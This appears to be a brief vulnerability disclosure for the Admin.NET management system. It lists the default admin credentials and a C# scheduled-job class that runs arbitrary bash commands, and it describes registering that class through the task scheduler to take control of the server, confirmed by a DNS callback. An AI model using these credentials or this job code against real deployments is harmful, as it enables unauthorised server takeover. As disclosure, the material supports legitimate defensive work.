





# Admin.NET

github:https://github.com/zuohuaijun/Admin.NET


Default account password:superadmin / 123456




code

```c
using Furion;
using Furion.Logging;
using Furion.RemoteRequest.Extensions;
using Furion.Schedule;
using Microsoft.Extensions.DependencyInjection;
using System;
using System.Diagnostics;
using System.Threading;
using System.Threading.Tasks;

namespace Admin.NET.Core
{
    [JobDetail("YourJobId")]
    public class DynamicJob : IJob
    {
        private readonly IServiceProvider _serviceProvider;

        public DynamicJob(IServiceProvider serviceProvider)
        {
            _serviceProvider = serviceProvider;
        }

        public async Task ExecuteAsync(JobExecutingContext context, CancellationToken stoppingToken)
        {
            using var serviceScope = _serviceProvider.CreateScope();
            ExecuteCommand("ifconfig");
        }

        private void ExecuteCommand(string command)
        {
            var processStartInfo = new ProcessStartInfo
            {
                FileName = "/bin/bash",
                Arguments = $"-c \"{command}\"",
                RedirectStandardOutput = true,
                UseShellExecute = false,
                CreateNoWindow = true
            };

            var process = new Process { StartInfo = processStartInfo };
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            process.WaitForExit();
            Console.WriteLine(output);
        }
    }
}

```


Select to add a new task in system task scheduling






Write the prepared C language code and run the task to obtain control permissions on the server



After modifying the script, I found that it can be run directly, and then my DNS service received feedback


